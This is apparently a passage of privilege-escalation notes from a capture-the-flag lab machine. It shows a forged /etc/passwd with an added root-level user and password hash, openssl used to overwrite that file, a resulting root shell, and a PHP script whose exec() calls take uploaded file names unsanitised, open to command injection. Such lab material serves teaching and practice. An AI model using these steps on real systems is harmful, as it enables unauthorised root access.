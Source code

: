 ```
rpc❌32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
sshd❌74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix❌89:89::/var/spool/postfix:/sbin/nologin
ntp❌38:38::/etc/ntp:/sbin/nologin
chrony❌997:995::/var/lib/chrony:/sbin/nologin
tcpdump❌72:72::/:/sbin/nologin
ldap❌55:55:OpenLDAP server:/var/lib/ldap:/sbin/nologin
saslauth❌996:76:Saslauthd user:/run/saslauthd:/sbin/nologin
ldapuser1❌1000:1000::/home/ldapuser1:/bin/bash
ldapuser2❌1001:1001::/home/ldapuser2:/bin/bash
10.10.14.2❌1002:1002::/home/10.10.14.2:/bin/bash
10.10.14.21❌1003:1003::/home/10.10.14.21:/bin/bash
byte:$1$byte$hMDtu8nzkmElSsWOB8IyZ0:0:0:byte:/root:/bin/bash

ldapuser1@lightweight ~]$ base64 passwd>passwd64
ldapuser1@lightweight ~]$ ./openssl enc -d -base64 -in passwd64 -out /etc/passwd
ldapuser1@lightweight ~]$ su byte
Password: 
root@lightweight ldapuser1]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
root@lightweight ldapuser1]# 
```

## Code Injection 
### Vulnerable Code:
```
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";
$files = array();
$files = preg_grep('/^(&#91;^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check&#91;0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);
    

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");

  }
}

```